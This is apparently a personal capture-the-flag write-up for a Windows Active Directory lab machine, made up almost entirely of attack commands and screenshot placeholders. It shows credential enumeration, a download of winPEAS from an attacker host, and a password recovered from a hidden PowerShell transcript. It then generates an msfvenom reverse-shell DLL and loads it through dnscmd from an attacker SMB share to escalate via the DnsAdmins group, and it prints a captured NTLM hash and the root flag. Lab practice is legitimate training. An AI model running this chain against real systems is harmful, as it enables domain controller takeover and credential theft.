 
```
bloodhound-python -d MEGABANK.local -u melanie -p 'Welcome123!' -ns 10.10.10.169 -c all
```
![[Pasted image 20240506061911.png]]

Winpeas
```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240506062115.png]]

```
crackmapexec smb 10.10.10.169 -u melanie -p 'Welcome123!' --shares
```

So my intuition was right there is something hidden and i can smell it but don't know the command for it.
```
dir -Force
```

![[Pasted image 20240506070133.png]]

![[Pasted image 20240506070800.png]]

PS Transcripts seems fishy to meeeeeeeeeeeee 
And the interesting thing is that file is hidden again
```
C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
```
![[Pasted image 20240506071315.png]]

Let's peak into the file and see if we can get some thing interesting from it
User
```
ryan
```

Password
```
Serv3r4Admin4cc123!
```

![[Pasted image 20240506071656.png]]


Let's evil-winrm and see the group and what we can do with it and the privileges we have
```
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169
```
![[Pasted image 20240506071911.png]]

```
secretsdump.py MEGABANK.LOCAL/ryan:'Serv3r4Admin4cc123!'@10.10.10.169
```
It didn't worked

![[Pasted image 20240506072229.png]]

So the group that stands out is DnsAdmins
![[Pasted image 20240506072623.png]]

https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83

https://medium.com/r3d-buck3t/escalating-privileges-with-dnsadmins-group-active-directory-6f7adbc7005b

Reverse DLL
```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.16.20 LPORT=9001 -f dll > rev.dll
```
![[Pasted image 20240507011836.png]]

We have to use LOLbins
https://lolbas-project.github.io/

![[Pasted image 20240506081837.png]]

I think we have to host the fill remotely or i am doing something
```
impacket-smbserver Toolkit $(pwd)
```


I tried a little different approach
```

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.20 LPORT=443 -f dll -o rev.dll

dnscmd.exe /config /serverlevelplugindll \\10.10.16.20\s\rev.dll

sc.exe \\resolute stop dns

sc.exe \\resolute start dns
```
Finally the file got accessed
![[Pasted image 20240507021840.png]]
```
RESOLUTE$::MEGABANK:4141414141414141:8db21665b118662df7b25a4396e9f85b:01010000000000000097e678f69fda01e0edad4d662e541b00000000010010006b0073004800700063006b0078006e00020010004e004e006a004a007100770050006f00030010006b0073004800700063006b0078006e00040010004e004e006a004a007100770050006f00070008000097e678f69fda0106000400020000000800300030000000000000000000000000400000668a0f9246c0afc5a27f72e7cf27723576a048643bf4c107eb1ab22382fa19590a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e00320030000000000000000000
```

I also learned a different approach to initiate the netcat listener
![[Pasted image 20240507021928.png]]



```
more root.txt
1eb2ecc11683dca09ddcf26e350bc27e
```
![[Pasted image 20240507022044.png]]